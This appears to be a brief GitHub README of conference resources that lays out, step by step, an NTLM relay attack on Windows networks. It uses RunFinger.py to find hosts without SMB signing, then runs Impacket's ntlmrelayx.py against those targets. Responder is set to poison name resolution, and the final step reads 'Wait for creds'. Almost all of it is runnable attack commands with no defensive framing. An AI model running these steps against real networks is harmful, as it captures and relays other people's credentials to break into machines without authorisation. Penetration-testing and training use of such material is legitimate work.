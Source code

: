 # DojoConf-Recursos

comando de Busqueda herramientas:
```
find /usr/share/responder/ -name "error.log" -print
```

1. Identify network systems that do not require SMB message validation
```
Run python  **RunFinger.py -i IP_Range** to detect machine with SMB signing:disabled.
```
    * Configure Impacket’s NTLMrelayx to target those systems
    * **echo "IP"  >> targets.txt**
    * **ntlmrelayx.py -tf targets.txt --smb2support**
2. Disable SMB and HTTP response poisoning in Responder and launch
```
cd /usr/share/responder
```
```
gedit Responder.conf
```
3. Open the Responder.conf file and set the value of SMB and HTTP to Off
    * **Responder.py** -I eth0 -rdw
4. Wait for creds

